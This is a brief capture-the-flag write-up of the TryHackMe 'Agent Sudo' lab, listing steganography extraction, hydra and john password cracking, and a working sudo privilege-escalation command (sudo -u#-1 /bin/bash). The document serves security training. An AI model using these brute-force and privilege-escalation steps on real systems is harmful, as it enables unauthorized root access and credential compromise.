 # Agent sudo 🧭
Names | Details
--------|-----
Source | tryhackme 
Level     | medium
Os | Linux

**Notes :**
#category/stegnography 
#category/hashCracking 



## Gaining Access 😉

- user agent changing using curl
- binwalk extraction
- hydra bruteforce



## Maintaining Access 🥷
- bash can be run without password
	- sudo -u#-1 /bin/bash 
- sudo -l


## Important commands 🔥
- `curl -A "R" -L [http://10.10.23.158/](http://10.10.23.158/)`
	```
	curl "http://10.10.23.158" -H "User-Agent: R" -L
	```
- binwalk -e
- echo QXJlYTUx | base64 -d
- scp username@hostname:/path/to/remote/file /path/to/local/file
- `steghide extract -sf cute-alien.jpg`
- binwalk
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- password cracking using john
- zip2john => zip bruteforce
- ssh file download using scp
- extract from jpeg using steghide and binwalk


--------------------------------
**By Nibras Muhammed** 🤓🖥️






